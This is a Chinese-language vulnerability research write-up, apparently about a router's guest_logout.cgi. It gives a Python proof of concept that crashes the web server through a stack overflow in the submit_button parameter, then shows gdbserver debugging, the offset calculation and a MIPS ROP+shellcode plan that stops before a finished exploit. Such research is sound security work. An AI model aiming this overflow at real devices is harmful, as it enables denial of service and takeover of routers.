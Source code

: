![image-20221027182154512](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027182154512.png)

这样一来这里很可能存在栈溢出漏洞，要想触发这个函数就要绕过if判断。向上分析请求包含三个参数，cmac：mac地址格式，cip：ip地址格式，submit_button: 包含status_guestnet.asp

![image-20221027191124846](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027191124846.png)

我们需要进行发包测试，用request库进行构造，get或者post，如果能打崩就说明存在漏洞

```python
import requests
from pwn import *

url = "https://192.168.1.1/guest_logout.cgi"

payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+cyclic(100),"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

经过测试post确实能打崩，接下来就调试一下具体的崩溃情况

利用telnet上传一个gdbserver

```bash
wget http://e4l4.com/gdbserver-7.12-mipsel-i-v1-sysv
mv gdbserver-7.12-mipsel-i-v1-sysv gdbserver
chmod +x ./gdbserver
./gdbserver :1234 --attach 356
```

本地调试

```bash
gdb-multiarch -q httpd
pwndbg> set architecture mips
pwndbg> set endian little
pwndbg> target remote 192.168.1.1:1234
pwndbg> c
```

然后打exp，然后程序就crash了，且PC被控制，计算一下溢出

```bash
cyclic -l 0x77616161
```



接下来就是在mips架构上构造栈溢出exp了，由于mips存在栈可执行的特性，基本思路都是ROP+shellcode。要注意的是这里采用的是scanf输入，如果payload中有\x00会被截断

用IDA插件mipsrop：[https://github.com/tacnetsol/ida/tree/master/plugins](https://github.com/tacnetsol/ida/tree/master/plugins) 来看看程序本身的gadget，地址都是0开头，而libc里的呢

![image-20221027194454166](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027194454166.png)

关于地址随机化，这里远程为1，即动态库的地址是随机的，但是似乎这个设备的libc基址并不会改变，是固定的且不是0开头，这里就可以使用libc里的gadget
